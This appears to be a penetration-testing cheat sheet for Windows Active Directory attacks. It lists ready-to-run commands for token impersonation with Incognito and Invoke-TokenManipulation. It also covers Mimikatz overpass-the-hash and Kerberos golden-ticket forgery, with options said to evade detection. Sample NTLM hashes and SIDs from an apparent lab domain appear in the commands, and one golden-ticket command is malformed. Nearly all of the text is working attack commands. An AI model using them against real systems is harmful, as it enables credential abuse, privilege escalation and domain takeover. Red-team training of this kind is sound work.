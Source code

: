 Tokens can be impersonated from other users with a session/running processes on the machine. A similar effect can be achieved by using e.g. CobaltStrike to inject into said processes.

Incognito
Show tokens on the machine:
```
.\incognito.exe list_tokens -u
```

Start new process with token of a specific user:
```
.\incognito.exe execute -c "domain\user" C:\Windows\system32\calc.exe
```

If you're using Meterpreter, you can use the built-in Incognito module with use incognito, the same commands are available.


### Invoke-TokenManipulation
Show all tokens on the machine:
```
Invoke-TokenManipulation -ShowAll
```

Show only unique, usable tokens on the machine:
```
Invoke-TokenManipulation -Enumerate
```

Start new process with token of a specific user:
```
Invoke-TokenManipulation -ImpersonateUser -Username "domain\user"
```

Start new process with token of another process:
```
Invoke-TokenManipulation -CreateProcess "C:\Windows\system32\calc.exe" -ProcessId 500
```

### Mimikatz
Overpass the hash:
```
sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:[NTLMHASH] /run:powershell.exe
Invoke-Mimikatz -Command '"sekurlsa::pth /user:srvadmin /domain:dollarcorp.moneycorp.local /ntlm:a98e18228819e8eec3dfa33cb68b0728 /run:powershell.exe"'`
```

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:srvadmin /domain:dollarcorp.moneycorp.local /ntlm:ff46a9d8bd66c6efd77603da26796f35 /run:powershell.exe"'
```

Golden ticket (domain admin, w/ some ticket properties to avoid detection):
```
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-[DOMAINSID] /krbtgt:[KRBTGTHASH] /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
